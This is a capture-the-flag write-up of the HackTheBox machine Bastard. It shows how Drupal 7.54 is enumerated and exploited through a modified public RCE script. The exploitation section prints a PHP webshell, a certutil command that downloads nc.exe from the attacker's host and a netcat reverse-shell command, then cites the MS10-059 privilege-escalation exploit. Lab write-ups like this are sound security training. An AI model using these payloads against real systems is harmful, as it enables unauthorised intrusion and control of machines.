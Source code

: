 ```yaml
---
layout: default
title: HackTheBox - Bastard Writeup
permalink: /htb/bastard
---
```


# Bastard

> **Name:** Bastard
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Bastard](https://www.hackthebox.eu/home/machines/profile/7) was released on 18 Mar 2017 and it is a medium rated Windows box. I had not previously done this box so going into the write-up I had no idea of what to expect.

## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.9 -sC -sV -v -oA full-scan ```

If running as root this command runs a SYN, or half-open scan against all ports, if running as a user it will be a full connect scan. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/bastard/scan-results.png)

Not a whole lot going on, but that Drupal 7 CMS could be interesting, especially if a specific version can be identified. Which looks very possible with the ```CHANGELOG.txt``` that is shown in the Nmap output from ```robots.txt```. 

## Enumeration

Lets check out that changelog and see if we can get a version. It's also worth checking out the other items from the ```robots.txt``` for anything that could be useful. 

![Changelog]({{site.url}}/assets/bastard/changelog.png)

There we have it, version 7.54. Time to check for any publicly available exploits for it, using searchsploit. However there are a lot of available exploits for this so they need to be narrowed down!

![Searchsploit]({{site.url}}/assets/bastard/searchsploit.png)

Narrowing this down is easier than it seems. Firstly we can discount all the versions below 7.54. This leaves the several 7.58 exploits and a 7.x. A check of the drupalageddon exploits show they weren't discovered until 2018, which is after the release of this box, so can't be the intended method. This leaves the 7.x to check out, and there is a good blog post on the vulnerability [here](https://www.ambionics.io/blog/drupal-services-module-rce)

## Exploitation

Checking the exploit script out shows that some small modification is need, or at least confirmation about the relevant endpoints. 

```
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```

The $url variable can be swapped out for the target, but the $endpoint_path and $endpoint need to be confirmed. Testing the script endpoint in the browser showed it wasn't a valid path. 

![Invalid Path]({{site.url}}/assets/bastard/endpoint.png)

From here I used intruder in Burp Pro to check for any valid endpoints. If you don't have the Pro version don't bother using this method, a tool like Gobuster, Dirb or WFUZZ will do the job as well. 

Using the ```/usr/share/wordlists/dirb/big.txt``` it is possible to identify the ```rest``` directory with a 200 response. 

![Gobuster]({{site.url}}/assets/bastard/intruder.png)

Testing this in the browser gives us the final piece in the puzzle. 

![Rest Endpoint]({{site.url}}/assets/bastard/rest.png)

With this information the script can be updated, and I modified the command run to create a simple php webshell. The updated lines are:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'tiro.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];```

The script can then be executed and we should get confirmation that the ```tiro.php``` file has been uploaded. 

![Exploit]({{site.url}}/assets/bastard/exploit.png)

A quick check in the browser by running whoami in the webshell will confirm that everything is working as expected. 

![Webshell]({{site.url}}/assets/bastard/webshell.png)

Now that basic code execution has been gained it is time to get a better shell so we can enumerate more and grab that user flag. From webshells I like to upload a better shell and execute that, this time around it will be netcat that I host locally on simple python webserver. 

The file is downloaded with the following command:

```http://10.10.10.9/tiro.php?cmd=certutil%20-urlcache%20-split%20-f%20http://10.10.14.35/nc.exe%20nc.exe```

This can be done in the browser or by using curl if you want. Then it's a matter of setting up the listener and executing the reverse shell command. 

This time around I used curl to run the command, you just need to remember to URL encode those spaces!

```curl http://10.10.10.9/tiro.php?cmd=nc.exe%2010.10.14.35%20443%20-e%20cmd.exe```

With this shell we can now move onto finding the privilege escalation!

![user shell]({{site.url}}/assets/bastard/user-shell.png)


## Privilege Escalation

As standard systeminfo is run to get an idea for what state the target is in. Thankfully the output is short and lets us know it is a Server 2008 R2 with no hotfixes applied. 

![Systeminfo]({{site.url}}/assets/bastard/systeminfo.png)

With this being an old server, and no patches applied there are going to be a lot of privilege escalation exploits available. The harder part is going to be finding which ones were likely to be the intended path at the time of release. 

Another thing that should be checked is what privileges we have. Using ```whoami /priv``` will show the privileges, some of them are more interesting than others. 

![whoami]({{site.url}}/assets/bastard/whoami.png)

From that list the ```SeImpersonatePrivilege``` being enabled is of interest as famously abused by the rotten and juicy potato exploits. At this point you could throw darts at a list of potential exploits and end up as system. But for this I will use windows exploit suggester in the same way covered in the [optimum]({{site.url}}/htb/optimum)

![exploit suggester]({{site.url}}/assets/bastard/exploit-suggester.png)

Starting from the bottom up seemed like a good idea, and once you ignore all the internet explorer related vulnerabilities a few standout. The one that I decided to use was MS10-059, mainly because I had used it previously, and handily egre55 has a precompiled version on his [github](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled)

This can be downloaded and then transfered to the target and run. 

![chimichurri]({{site.url}}/assets/bastard/chimichurri.png)

It takes a while to run, but that shell will come! Then you can go grab the flags.

![system]({{site.url}}/assets/bastard/system.png)


